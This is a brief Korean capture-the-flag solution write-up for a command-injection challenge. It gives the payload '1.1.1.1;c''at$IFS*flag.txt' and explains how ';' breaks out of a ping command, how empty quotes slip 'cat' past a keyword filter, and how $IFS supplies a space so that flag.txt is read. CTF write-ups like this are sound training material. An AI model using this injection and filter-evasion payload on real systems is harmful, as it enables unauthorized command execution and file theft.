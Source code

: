 # 문제 풀이

```
1.1.1.1;c''at$IFS*flag.txt
```

1.1.1.1로 ping을 보낸 후 ; 로 탈출,
''로 cat 단언 필터링을 우회한 후 $IFS로 공백을 넣어준 후 *flag.txt로 flag.txt를 읽어온다.